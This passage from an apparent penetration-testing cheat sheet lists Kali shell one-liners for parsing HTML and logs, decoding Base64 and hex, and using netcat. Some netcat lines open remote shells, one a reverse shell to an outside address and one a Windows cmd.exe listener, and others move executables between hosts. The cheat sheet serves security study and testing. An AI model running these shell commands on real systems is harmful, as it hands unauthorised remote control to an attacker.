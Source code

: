         `tail index.html`
 
    -   Extract all the lines that contain a string  
        `grep "href=" index.html`
 
    -   Cut a string by a delimiter, filter results then sort  
        `grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u`
 
    -   Using Grep and regular expressions and output to a file  
        `cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt`
 
    -   Use a bash loop to find the IP address behind each host  
        `for url in $(cat list.txt); do host $url; done`
 
    -   Collect all the IP Addresses from a log file and sort by
        frequency  
        `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`
 
-   Decoding using Kali
 
    -   Decode Base64 Encoded Values
       
        `echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode`
 
    -   Decode Hexidecimal Encoded Values  
        `echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps`
 
-   Netcat - Read and write TCP and UDP Packets
 
    -   Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems):
        [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)
 
    -   Connect to a POP3 mail server  
        `nc -nv $ip 110`
 
    -   Listen on TCP/UDP port  
        `nc -nlvp 4444`
 
    -   Connect to a netcat port  
        `nc -nv $ip 4444`
 
    -   Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`
 
    -   Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`
       
    -   Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...
         
            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz
 
            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444
 
 
    -   Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`
       
        or
       